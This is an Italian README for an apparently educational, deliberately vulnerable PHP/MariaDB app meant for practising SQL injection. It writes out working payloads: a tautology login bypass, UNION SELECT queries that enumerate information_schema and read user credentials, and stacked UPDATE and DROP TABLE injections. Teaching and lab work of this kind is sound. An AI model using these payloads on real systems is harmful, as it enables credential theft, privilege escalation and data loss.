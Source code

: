 # SQL Injection Demo App (PHP + MariaDB + Docker)

Questa applicazione è stata creata per scopi didattici e dimostra le vulnerabilità SQL Injection più comuni in un contesto web.

---

## Funzionalità

- Login vulnerabile (tautologia)
- Dashboard con elenco parziale dei dati degli utenti
- Form di ricerca email vulnerabile a:
  - UNION SELECT
  - Esfiltrazione dati da `information_schema`
  - Piggybacking (`DROP`, `UPDATE`)
- Style CSS semplice incluso

---

## Tecnologie

- PHP (senza framework)
- MariaDB 10.5
- Docker & Docker Compose

---

## Avvio dell'applicazione

1. Clona il progetto

```bash
git clone https://github.com/tuo-utente/sql-injection-demo.git
cd sql-injection-demo
```

2. Avvia i container

```bash
docker-compose up --build
```

L'app sarà disponibile su `http://localhost:8080/login.html`

---

## Login di esempio

Tautologia:
```
Username: ' OR 1=1 #
Password: qualsiasi
```

Credenziali reali:
```
Username: admin
Password: admin123
```

---

## Esecuzione di attacchi SQLi

Tautologia:
```
' OR 1=1 #
```

Scoprire nome database:
```
' UNION SELECT 1, DATABASE(), 'x' #
```

Elencare tutti gli schemi:
```
' UNION SELECT 1, schema_name, 'x' FROM information_schema.schemata #
```

Elencare tabelle:
```
' UNION SELECT 1, table_name, 'x' FROM information_schema.tables WHERE table_schema='sqli_demo' #
```

Elencare colonne:
```
' UNION SELECT 1, column_name, 'x' FROM information_schema.columns WHERE table_name='utenti' AND table_schema='sqli_demo' #
```

Leggere credenziali:
```
' UNION SELECT id, username, password FROM utenti #
```

Aggiornare un utente:
```
' ; UPDATE utenti SET ruolo = 'admin' WHERE username = 'user1'; --
```

Cancellare la tabella:
```
' ; DROP TABLE utenti; --
```

---

## Ripristino del database

Se la tabella o il database vengono eliminati durante i test, puoi ricostruire tutto con:

```bash
docker-compose down -v
docker-compose up --build
```

---

## Crediti

Progetto sviluppato per scopi didattici. **Non usare in ambienti di produzione.**